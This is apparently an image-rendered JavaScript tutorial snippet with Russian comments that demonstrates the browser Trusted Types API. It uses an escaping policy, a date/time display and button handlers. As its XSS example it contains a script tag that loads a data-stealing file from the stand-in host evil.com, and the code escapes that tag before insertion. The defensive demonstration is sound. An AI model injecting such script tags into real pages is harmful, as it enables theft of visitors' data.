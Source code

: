 ```javascript
// политика доверенных типов
let policy
if (window.trustedTypes && trustedTypes.createPolicy) {
 policy = trustedTypes.createPolicy('escapePolicy', {
   createHTML: (str) => str.replace(/\</g, '&lt').replace(/>/g, '&gt')
 })
}

// утилиты
// для получения ссылки на DOM-элемент
const getEl = (selector, parent = document) => parent.querySelector(selector)
// для форматирования даты и времени
const getDate = (options, locale = 'ru-RU', date = Date.now()) =>
 new Intl.DateTimeFormat(locale, options).format(date)
// для регистрации обработчика
const on = (el, cb, event = 'click', options = { once: true }) =>
 el.addEventListener(event, cb, options)

// ссылки на DOM-элементы
const containerEl = getEl('.container')
const dateEl = getEl('.date', containerEl)
const timeEl = getEl('.time', containerEl)
const stopBtnEl = getEl('.btn-stop', containerEl)
const addBtnEl = getEl('.btn-add', containerEl)
const getBtnEl = getEl('.btn-get', containerEl)

// настройки для даты
const dateOptions = {
 weekday: 'long',
 day: 'numeric',
 month: 'long',
 year: 'numeric'
}
// настройки для времени
const timeOptions = {
 hour: 'numeric',
 minute: 'numeric',
 second: 'numeric'
}

// добавляем текущую дату в качестве текстового содержимого соответствующего элемента
dateEl.textContent = getDate(dateOptions)
// добавляем текущее время в качестве текстового содержимого соответствующего элемента каждую секунду
const timerId = setInterval(() => {
 timeEl.textContent = getDate(timeOptions)
}, 1000)

// колбэки для обработчиков (в каждом колбэке происходит удаление соответствующей кнопки)
// для остановки таймера
const stopTimer = () => {
 clearInterval(timerId)
 stopBtnEl.remove()
}
// для добавления HTML-шаблона с потенциально вредоносным кодом
const addTemplate = () => {
 const evilTemplate = `<script src="https://evil.com/steal-data.min.js"></script>`
 // при попытке вставить необезвреженный шаблон будет выброшено исключение
 // Uncaught TypeError: Failed to execute 'insertAdjacentHTML' on 'Element': This document requires 'TrustedHTML' assignment.
 containerEl.insertAdjacentHTML('beforeend', policy.createHTML(evilTemplate))
 addBtnEl.remove()
}
```